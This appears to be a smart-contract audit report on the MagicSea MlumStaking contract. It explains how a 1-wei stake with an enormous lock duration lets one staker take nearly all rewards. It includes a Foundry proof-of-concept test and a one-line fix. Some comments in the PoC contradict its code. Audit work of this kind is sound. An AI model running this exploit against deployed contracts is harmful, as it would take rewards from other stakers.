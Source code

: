 Clever Paisley Ladybug

Medium

# Rewarding system DoS by staking 1 wei for eternity in `MlumStaking`

## Summary
By creating a staking position of 1 wei and 10000000000000000000000000000000000000 Locktime, an attacker can DoS the reward system by forcing all other stakers rewards to be 0. 

## Vulnerability Detail
To stak tokens and earn rewards, users should call the `createPosition()` with the desired amount of tokens that they want to stak and the period of time to lock that amount and earn rewards.

```solidity
    function createPosition(uint256 amount, uint256 lockDuration) external override nonReentrant {
        // no new lock can be set if the pool has been unlocked
        if (isUnlocked()) {
            require(lockDuration == 0, "locks disabled");
        }

        _updatePool();

        // handle tokens with transfer tax
        amount = _transferSupportingFeeOnTransfer(stakedToken, msg.sender, amount);
        require(amount != 0, "zero amount"); // createPosition: amount cannot be null

        // mint NFT position token
        uint256 currentTokenId = _mintNextTokenId(msg.sender);

        // calculate bonuses
        uint256 lockMultiplier = getMultiplierByLockDuration(lockDuration);
        uint256 amountWithMultiplier = amount * (lockMultiplier + 1e4) / 1e4;

        // create position
        _stakingPositions[currentTokenId] = StakingPosition({
            initialLockDuration: lockDuration,
            amount: amount,
            rewardDebt: amountWithMultiplier * (_accRewardsPerShare) / (PRECISION_FACTOR),
            lockDuration: lockDuration,
            startLockTime: _currentBlockTimestamp(),
            lockMultiplier: lockMultiplier,
            amountWithMultiplier: amountWithMultiplier,
            totalMultiplier: lockMultiplier
        });

        // update total lp supply
        _stakedSupply = _stakedSupply + amount;
        _stakedSupplyWithMultiplier = _stakedSupplyWithMultiplier + amountWithMultiplier;

        emit CreatePosition(currentTokenId, amount, lockDuration);
    }
```

However, as you can see this function doesn't check if `lockDuration` > `_maxLockDuration`. therefore, by staking a small value like 1 wei for 10000000000000000000000000000000000000 `lockDuration`, the attacker will be able to get all the rewards by having the higher share in the pool.

You can reproduce this vulnerability by running the following PoC:

```solidity
    function testCreatePositionEternityTimeLock() public {
        _stakingToken.mint(BOB, 4 ether);
        _stakingToken.mint(ALICE, 2 ether);

        // step 1: Alice create a position by staking 1 ether with a zero timelock
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 wei);
        _pool.createPosition(1 wei, 10000000000000000000000000000000000000000);
        vm.stopPrank();

        assertEq(ERC721(address(_pool)).ownerOf(1), ALICE);

        // step 2: Bob create a position by staking 1 ether for a timelock of 2 days (this step was added to show that rewards are correctly distributed)
        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 2 ether);
        _pool.createPosition(1 ether, 2 days);
        vm.stopPrank();

        // send something
        _rewardToken.mint(address(_pool), 100_000_000);

        vm.prank(BOB);
        uint256 bobAmount = _pool.pendingRewards(2);
        console.log(bobAmount); // bobAmount = 0

        vm.prank(ALICE);
        uint256 aliceAmount = _pool.pendingRewards(1);
        console.log(aliceAmount); // aliceAmount = 99999999
    }
```


## Impact
DoS the rewarding system, as no one will be able to get rewards.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L354-L390

## Tool used
Manual Review

## Recommendation
add the following line of code in the first line of the function body:

```diff
function createPosition(uint256 amount, uint256 lockDuration) external override nonReentrant { 
+    require(lockDuration <= _maxLockDuration, "High lock duration");
     // no new lock can be set if the pool has been unlocked 
     if (isUnlocked()) { 
         require(lockDuration == 0, "locks disabled"); 
     } 
  
     _updatePool(); 
  
     // handle tokens with transfer tax 
     amount = _transferSupportingFeeOnTransfer(stakedToken, msg.sender, amount); 
     require(amount != 0, "zero amount"); // createPosition: amount cannot be null 
  
     // mint NFT position token 
     uint256 currentTokenId = _mintNextTokenId(msg.sender); 
  
     // calculate bonuses 
     uint256 lockMultiplier = getMultiplierByLockDuration(lockDuration); 
     uint256 amountWithMultiplier = amount * (lockMultiplier + 1e4) / 1e4; 
  
     // create position 
     _stakingPositions[currentTokenId] = StakingPosition({ 
         initialLockDuration: lockDuration, 
         amount: amount, 
         rewardDebt: amountWithMultiplier * (_accRewardsPerShare) / (PRECISION_FACTOR), 
         lockDuration: lockDuration, 
         startLockTime: _currentBlockTimestamp(), 
         lockMultiplier: lockMultiplier, 
         amountWithMultiplier: amountWithMultiplier, 
         totalMultiplier: lockMultiplier 
     }); 
  
     // update total lp supply 
     _stakedSupply = _stakedSupply + amount; 
     _stakedSupplyWithMultiplier = _stakedSupplyWithMultiplier + amountWithMultiplier; 
  
     emit CreatePosition(currentTokenId, amount, lockDuration); 
 } 
```